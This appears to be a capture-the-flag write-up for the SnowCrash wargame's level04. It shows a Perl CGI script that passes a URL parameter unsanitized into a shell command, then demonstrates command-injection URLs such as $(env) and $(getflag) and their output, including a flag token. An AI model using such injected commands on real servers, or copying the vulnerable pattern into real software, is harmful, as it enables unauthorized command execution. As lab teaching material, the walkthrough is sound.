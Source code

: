 [README.md](../README.md)
# level04

## What's new
- after logging in as level04 something new appears, a Pearl script: 
``` 
level04@SnowCrash:~$ ls
level04.pl
```

## What is Perl
Perl is a high-level, interpreted programming language known for its strong text processing capabilities and flexibility. It's commonly used for web development, system administration, network programming, and other tasks. Perl features powerful regular expressions, dynamic typing, and a large collection of built-in functions and modules. It's often used for tasks involving text manipulation, data extraction, and automation.

## The script content: what's that ?
If we `cat level04.pl` we see the following:
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```
This script is a simple CGI script written in Perl that accepts a parameter named x from an HTTP request, executes the echo command with that parameter as an argument, and prints the output back to the client as HTML.

## What is CGI
CGI, or Common Gateway Interface, is a protocol that facilitates communication between web servers and external programs, known as CGI scripts. These scripts, often written in languages like Perl, Python, or C, generate dynamic web content in response to server requests. CGI enables servers to interact with these programs, allowing for dynamic content generation such as database queries, form processing, and personalized responses based on user input. While CGI was once prevalent, it has been largely replaced by more efficient technologies like server-side scripting languages and application servers. Nonetheless, CGI remains foundational in understanding the evolution of dynamic web content generation.

## So what ?
So, we can open up a browser on the host machine, conenct to the ip address, at port 4747, of the snow_crash web server and pass a shell command as an argument to parameter x in the URL to get the results displayed in the browser..
Not clear?
- If we `http://$IP_ADDRESS:4747/?x=$(ls -la)`we get displayed the list of files in the current directory: `total 4 dr-xr-x---+ 2 flag04 level04 60 Feb 24 11:23 . drwxr-xr-x 1 root root 100 Feb 24 11:23 .. -r-xr-x---+ 1 flag04 level04 152 Feb 24 11:23 level04.pl`
- If we `http://$IP_ADDRESS:4747/?x=$(env)`we get displayed the env variables of the snow_crash server: 
```
GATEWAY_INTERFACE=CGI/1.1 REMOTE_ADDR=172.16.197.1 QUERY_STRING=x=$(env) HTTP_USER_AGENT=Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 DOCUMENT_ROOT=/var/www/level04/ REMOTE_PORT=36174 HTTP_UPGRADE_INSECURE_REQUESTS=1 HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 SERVER_SIGNATURE=
Apache/2.2.22 (Ubuntu) Server at 172.16.197.128 Port 4747
SCRIPT_FILENAME=/var/www/level04/level04.pl HTTP_HOST=172.16.197.128:4747 REQUEST_URI=/?x=$(env) SERVER_SOFTWARE=Apache/2.2.22 (Ubuntu) HTTP_CONNECTION=keep-alive PATH=/usr/local/bin:/usr/bin:/bin HTTP_ACCEPT_LANGUAGE=fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7 SERVER_PROTOCOL=HTTP/1.1 HTTP_ACCEPT_ENCODING=gzip, deflate REQUEST_METHOD=GET SERVER_ADDR=172.16.197.128 SERVER_ADMIN=[no address given] PWD=/var/www/level04 SERVER_PORT=4747 SCRIPT_NAME=/level04.pl SERVER_NAME=172.16.197.128
```
- and if we `http://$IP_ADDRESS:4747/?x=$(getflag)` ? We get our flag: `Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap`

